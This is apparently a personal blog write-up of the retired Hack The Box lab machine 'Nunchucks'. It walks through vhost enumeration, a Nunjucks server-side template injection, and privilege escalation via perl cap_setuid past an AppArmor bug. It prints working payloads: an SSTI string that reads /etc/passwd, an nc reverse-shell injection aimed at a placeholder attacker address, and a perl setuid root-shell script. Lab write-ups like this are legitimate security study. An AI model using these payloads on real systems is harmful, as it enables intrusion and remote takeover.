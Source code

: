 ```yaml
---
title: "Nunchucks HTB"
date: 2021-11-09T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - NodeJS
  - SSTI
  - SUID
  - AppArmor
classes: wide
---
```


Nunchucks is a 7 day retired box, it is easy rated and it can be found [here.](https://app.hackthebox.com/machines/Nunchucks)

>*"Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI)."*

<h2> Enumeration</h2>

**Nmap scan results:**

```
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                            
80/tcp  open  http     syn-ack nginx 1.18.0 (Ubuntu)                                                                        
| http-methods:                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                 
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                      
|_http-title: Did not follow redirect to https://nunchucks.htb/                                                                                                  
443/tcp open  ssl/http syn-ack nginx 1.18.0 (Ubuntu)                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)     
|_http-title: Nunchucks - Landing Page                                                                               
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
```

<h4>What is the scan telling us?</h4>

- Port 22 is open showing OpenSSH 8.2p1 on Ubuntu.
- Port 80 is open showing a nginx webserver.
- Port 443 shows ssl/http or https nginx webport.

We see the nunchucks.htb domain so we add it to our `/etc/hosts` file.

Navigating to the main page on port 443 and 80 we see: 

<img src="/assets/images/nunchucks/nunchuck0.PNG" alt="Different Vhost found.">

There is a registration and login page. However when we attempt to register or log in we get an error that logins and registrations are temporarily disabled.

**Gobuster:**
We use Gobuster's dir mode and find nothing of note, just things you can find navigating the site. 

However using vhost mode we find the following:

<img src="/assets/images/nunchucks/nunchuck1.PNG" alt="Different Vhost found.">

We add this to our `/etc/hosts` file and navigate to it.

<img src="/assets/images/nunchucks/nunchuck2.PNG" alt="https://store.nunchucks.htb">

From here we try to navigate through all the buttons and find that none of them link to any other page. However, inputting a test email shows that this site may be vulnerable to a Server-Side Template Injection (SSTI). 

<img src="/assets/images/nunchucks/nunchuck3.PNG" alt="Returns our email.">

<h4>What is an SSTI?</h4>

[Portswigger](https://portswigger.net/research/server-side-template-injection) explains SSTI as:

>*"Web applications frequently use template systems such as Twig and FreeMarker to embed dynamic content in web pages and emails. Template Injection occurs when user input is embedded in a template in an unsafe manner."*

We can test for an SSTI by submitting math to the server and seeing what is returned:

<img src="/assets/images/nunchucks/nunchuck4.PNG" alt="It's executing!">

The server has seen `7*7` and has returned 49 to us. It is executing what we give it, essentially an RCE.

<h2>Foothold</h2>

From here we have to understand what underlying template engine is running to see if there are any known vulns. We could test and devise our own manually but I'm not quiteeeeeee there yet.

Using Burpsuite to capture the email submission and seeing what the response is with repeater we see:

<img src="/assets/images/nunchucks/nunchuck5.PNG" alt="Powered by Express">

According to [wikipedia](https://en.wikipedia.org/wiki/Express.js), Express is:

>*"Express.js, or simply Express, is a back end web application framework for Node.js"* 

From here more googling leads us to a list of template engines usable by Express, including one named "Nunjucks".

We google for "Nunjucks SSTI" and find a nice [breakout guide](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

We see that we can use `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}` to print `/etc/passwd`. Changing this to an email format and adding `\` between the double quotes to prevent errors:

<img src="/assets/images/nunchucks/nunchuck6.PNG" alt="Returns /etc/passwd">

Since we know this breakout works on this site we can now execute whatever we want! 

We startup our classic nc listener and find a reverse shell script to insert:

```
{
  "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP YOURPORT >/tmp/f')\")()}}@mail.com"
}
```

We catch this shell, navigate to `/home/david` and see the `user.txt` right there:

<img src="/assets/images/nunchucks/nunchuck7.PNG" alt="User!">

<h2>Privilege Escalation</h2>

From here we notice that the box has a `SUID` tag on it, and use `getcap -r / 2>/dev/null` like so:

<img src="/assets/images/nunchucks/nunchuck8.PNG" alt="Good old setuid.">

We see `/usr/bin/perl = cap_setuid+ep` which we know from [Cap](https://moseskonsue.github.io/writeup/cap/) will allow us to escalate privileges. Checking [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we see a one liner to give us root. 

However running it does... Nothing?

Being completely stuck I check out a great writeup from [0xdf](https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html). Who explains that the reason why nothing is happening is because of [AppArmor](https://en.wikipedia.org/wiki/AppArmor), from wikipedia:

>*"AppArmor ("Application Armor") is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles"*

AppArmor would have revealed itself if I attempted to run the perl one liner in a script instead. Returning the following:

```bash
Can't open perl script "x": Permission denied
```

0xdf points out through their research they found that there is a [bug](https://bugs.launchpad.net/apparmor/+bug/1911431). This bug means that AppArmor will prevent execution when the binary is invoked via path, but if it's invoked by a SheBang(#) no such protection is offered.

This means we can create a script in `/tmp` with our one liner that looks like:

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Which results in:

<img src="/assets/images/nunchucks/nunchuck9.PNG" alt="whoami">

We find the root flag in the usual `/root/root.txt`.


<img src="/assets/images/nunchucks/nunchuck10.PNG" alt="Nice!">


<h4>For next time:</h4>

- The presence of one domain name suggests the possibility of others existing, use Gobuster vhost to discover others.
- Figure out a good workflow for testing sites for OWASP top 10 vulns. {{7/7}} etc. 



